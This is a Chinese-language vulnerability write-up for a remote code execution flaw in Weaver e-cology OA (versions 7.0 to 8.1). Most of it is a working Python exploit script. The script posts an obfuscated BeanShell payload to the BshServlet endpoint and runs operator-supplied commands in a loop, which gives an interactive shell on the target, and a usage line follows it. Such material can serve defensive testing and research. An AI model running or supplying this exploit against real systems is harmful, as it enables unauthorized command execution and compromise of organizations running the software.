 ## 前言  

泛微e-cology OA远程代码执行|泛微OA管理系统RCE漏洞利用脚本

## 漏洞简介  

泛微OA管理系统RCE漏洞：攻击者可通过精心构造的请求包攻击易受损的泛微OA用户，实现任意代码执行，进而获取系统Shell。企业用户可以使用腾讯御知检测企业网络资产是否存在该漏洞。

## 漏洞危害  

攻击者可通过精心构造的请求包攻击易受损的泛微OA用户，实现任意代码执行，进而获取系统Shell

## 影响范围  

### 产品  

> 泛微e-cology

### 版本  

> 包括不限于7.0，8.0，8.1版  

### 组件  

> 泛微e-cology  

## 漏洞复现  

```python
import requests
import sys

headers = {
    'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 12_10) AppleWebKit/600.1.25 (KHTML, like Gecko) Version/12.0 Safari/1200.1.25',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3',
    'Accept-Language': 'zh-CN,zh;q=0.9',
    'Content-Type': 'application/x-www-form-urlencoded'
}


def exploit(url,cmd):
    target=url+'/weaver/bsh.servlet.BshServlet'
    payload='bsh.script=eval%00("ex"%2b"ec(\\"cmd+/c+{}\\")");&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw'.format(cmd)
    res=requests.post(url=target,data=payload,headers=headers,timeout=10)
    res.encoding=res.apparent_encoding
    print(res.text)

if __name__ == '__main__':
    url=sys.argv[1]
    while(1):
        cmd=input('cmd:')
        exploit(url,cmd)
```
USAGE：python e-cology-rce.py http://target.com/ 根据提示输入需要执行的命令即可检测